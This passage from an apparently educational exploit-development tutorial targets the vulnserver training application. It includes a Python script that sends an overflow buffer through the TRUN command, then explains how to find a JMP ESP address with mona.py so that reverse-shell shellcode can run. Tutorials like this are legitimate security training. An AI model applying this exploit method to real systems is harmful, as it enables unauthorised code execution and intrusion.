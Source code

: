 ```python
payload += "C" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
except:
        print("[-] Could not connect to server!")
```

## Redirecting Execution Flow

As explained in part 1:

So we control the EIP register and have identified the bad characters, we can also see that ESP points to our C’s which is where we can place our shellcode for a reverse shell.

The best thing to do would be to try and replace the B’s that overwrite EIP with the address that pops up in the ESP register at the time of the crash. However, the value in the ESP register changes from crash to crash. This is why we can not hardcode the value.

The best way to go about this is to locate a reliable address in memory that contains an instruction such as JMP ESP. Then we can jump to it and end up at the address pointed to by the ESP register; the cool thing is we have mona.py which is an immunity debugger script to find this address for us.

We need to search for a module which meets the following criteria:

* Has no memory protections such as DEP or ASLR
* Does not have any bad characters.

Let’s run `!mona modules`


We can instantly see there is a module that meets our criteria which is essfunc.dll. We also have vulnserver.exe but it is loaded at a very low address values, starting with 0x00, so any reference to addresses within vulnserver.exe will require a null byte, and that won’t work because ‘\x00’ is a bad character.


![MonaModules.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/26d178ded86a4457b5020d11b21f3639.png)


`!mona find -s "\xff\xe4" -m essfunc.dll`

We can see that there are many occurrences of JMP ESP. However, we will just take the first one `0x625011AF`

![essfunc.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/867bef77889741c5a9403de764fbaeb9.png)


Let's test this JMP ESP after placing a breakpoint on `0x625011AF`.

